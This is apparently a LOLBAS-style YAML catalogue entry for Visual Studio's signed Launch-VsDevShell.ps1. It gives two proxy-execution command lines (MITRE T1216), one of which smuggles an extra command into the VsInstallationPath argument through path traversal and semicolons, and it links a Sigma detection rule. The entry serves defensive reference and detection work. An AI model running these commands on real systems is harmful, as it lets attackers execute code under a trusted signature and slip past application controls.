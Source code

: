 ```yaml
---
Name: Launch-VsDevShell.ps1
Description: Locates and imports a Developer PowerShell module and calls the Enter-VsDevShell cmdlet
Author: 'Nasreddine Bencherchali'
Created: 2022-06-13
Commands:
  - Command: 'powershell -ep RemoteSigned -f .\Launch-VsDevShell.ps1 -VsWherePath {PATH_ABSOLUTE:.exe}'
    Description: Execute binaries from the context of the signed script using the "VsWherePath" flag.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: 'powershell -ep RemoteSigned -f .\Launch-VsDevShell.ps1 -VsInstallationPath "/../../../../../; {PATH:.exe} ;"'
    Description: Execute binaries and commands from the context of the signed script using the "VsInstallationPath" flag.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\Tools\Launch-VsDevShell.ps1
  - Path: C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\Tools\Launch-VsDevShell.ps1
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_launch_vsdevshell.yml
Resources:
  - Link: https://twitter.com/nas_bench/status/1535981653239255040
Acknowledgement:
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

